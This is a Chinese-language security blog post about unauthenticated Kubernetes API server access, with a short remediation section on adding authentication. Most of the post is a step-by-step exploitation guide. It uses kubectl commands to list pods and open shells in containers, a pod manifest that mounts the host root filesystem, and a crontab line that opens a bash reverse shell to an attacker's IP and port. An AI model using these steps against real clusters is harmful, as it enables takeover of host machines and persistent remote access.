 title: Kubernetes Api Server 未授权访问漏洞
banner: https://i.loli.net/2018/12/06/5c08bd29e44de.png
date: 2018-12-05
----

# 0x00 漏洞原因

Kubernetes 的服务在正常启动后会开启两个端口：

1. Localhost Port （默认8080）
2. Secure Port （默认6443）

这两个端口都是提供 Api Server 服务的，一个可以直接通过 Web 访问，另一个可以通过 kubectl 客户端进行调用。

![Web 页面](https://i.loli.net/2018/12/05/5c07dec609ff5.png)

正常情况下 Api Server 是有权限控制的，分三种：

1. Authentication
2. Authorization
3. AdmissionControl

如果运维人员没有合理的配置验证和权限，那么攻击者就可以通过这两个接口去获取容器的权限，甚至通过创建自定义的容器去获取宿主机的权限。

# 0x01 漏洞利用

利用方式按严重程度来说分两种，一种是直接通过利用 kubectl 客户端调用 Secure Port 接口去控制已经创建好的容器。另外一种利用方法就是通过创建一个自定义的容器将系统根目录的文件挂在到/mnt目录，通过修改/mnt/etc/crontab 来影响宿主机的 crontab，获取一个反弹 Shell 拿到宿主机的权限。先说第一种方式。


首先，通过下面命令，去发现已经存在的容器

```
kubectl -s ip:port  get pods
```

![发现的容器](https://i.loli.net/2018/12/05/5c07e27b68f05.png)

然后直接连接这个容器获取 Shell。


```
kubectl -s ip:port  --namespace=default exec -it dockername bash
```
![获取容器权限](https://i.loli.net/2018/12/06/5c07f8c667de8.png)

这样就达到了控制容器的目的，但是容器的权限本身是不稳定的，如果宿主机本身的内核有问题的话，可以利用脏牛漏洞进行提权，获取宿主机的权限。具体可以参考：

[PoC for Dirty COW (CVE-2016-5195)](https://github.com/scumjr/dirtycow-vdso)
[DDirtycow-docker-vdso](https://github.com/gebl/dirtycow-docker-vdso)

第二种方式就比较厉害了，利用成功后造成的危害也最大。

首先我们根据官方的规范新建一个标准文件 `myapp.yaml` ,当然也可以使用 json 格式的。


```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
其中的 image 可以更换，最好使用基础镜像。

然后我们可以通过两种方式提交我们创建容器的请求，一种是通过他的 Web 页面（也就是默认的8080端口）

![Web 端方式提交](https://i.loli.net/2018/12/05/5c07e697f2044.png)

另外我们也可以通过他的另外的接口，通过 kubectl 客户端进行任务的提交。


```
kubectl -s  ip:port create -f yourfile
```

这里如果出现`Error from server (NotFound): the server could not find the requested resource`报错，可能是因为你的 kubectl 客户端和 kubernetes 的 server 端版本不相同导致的，一定要确保版本相同。

![版本确认](https://i.loli.net/2018/12/05/5c07edbf2b85e.png)

提交成功后，我们用之前命令获取容器的 bash，然后向容器的 `/mnt/etc/crontab` 写入反弹 shell 的定时任务，因为创建容器时把宿主机的根目录挂载到了容器的/mnt 目录下，所以可以直接影响到宿主机的 crontab。


```
echo -e "* * * * * root bash -i >& /dev/tcp/ip/port 0>&1\n" >> /mnt/etc/crontab
```

接下来就是见证奇迹的时刻，耐心的等待你就能拿到 Shell 了，验证之后可以确认是宿主机的权限，而不是容器的权限

![获取宿主机权限](https://i.loli.net/2018/12/05/5c07e92f66a77.png)

# 0x01 漏洞修复

在使用 kubernetes 的时候我们一定要进行身份的校验，K8S 的 APi 其实有非常严格的认证和授权

![校验认证流程](https://i.loli.net/2018/12/05/5c07ea3d72caa.png)

最简单的是在 Authentication 增加静态的 password，或者 token，可以的话关闭 Web 端口的服务，保持最小化原则，避免安全风险的产生，可以参考 [官方文档](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#static-password-file)



